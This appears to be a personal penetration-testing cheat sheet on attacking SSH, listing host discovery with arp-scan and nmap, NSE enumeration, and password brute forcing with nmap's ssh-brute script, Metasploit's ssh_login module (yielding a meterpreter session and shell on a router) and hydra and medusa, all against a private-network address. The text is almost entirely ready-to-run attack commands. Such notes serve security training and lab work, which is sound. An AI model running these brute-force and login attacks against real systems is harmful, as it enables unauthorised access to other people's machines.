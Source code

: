 *SSH Exploitation


 - arp-scan -l 	--> to gether your ip address

 - nmap -v -n -Pn -p22 192.168.1.24

 - nmap -v -n -Pn -p22 -sV 192.168.1.24

 - its using openssh



## ssh login brute forcing ##
------------------------------

nmap -v -n -Pn -p22 -sV -sC 192.168.1.24


# method 1 #

 - locate .nse | grep ssh

 - ssh2-enum-algos

 - nmap -v -n -Pn -p22 --script ssh2-enum-algos 192.168.1.24


# ssh brute force  #
--------------------
 - locate .nse | grep ssh

 - ssh-brute.nse

 - cat ssh-brute.nse


 - nmap -v -n -Pn -p22 --script ssh-brute --script-args userdb=user.txt,passdb=pass.txt 192.168.1.24

- nmap -p 22 --script ssh-brute --script-args userdb=user.txt,passdb=pass.txt 192.168.0.24


# method 2 #
-------------
 - msfconsole  --> to open metasploit framework

 - search ssh_login

 - use 0 (or) use auxiliary(scanner/ssh/ssh_login)

 - set RHOSTS 192.168.1.24

 - set user_file /root/Networkpentesting/ssh/user.txt

 - set pass_file /root/Networkpentesting/ssh/pass.txt

 - run (or) exploit

- After that session will create so how to check using below command

 - sessions 

 - sessions -i 1 --> to interact with session one

- After that you will get meterpreter shell

 - whoami 	--> to check which user

 - shell 	--> to get vyatta router access



*Password Brute force using two different tools


1. hydra
 - hydra -L text.txt -P pass.txt ssh://192.168.1.24


2. medusa

 - medusa -h 192.168.1.0 -U /user.txt -P pass.txt -M ssh

 - medusa -h 192.168.1.0 -U /user.txt -P pass.txt -M ssh | grep success



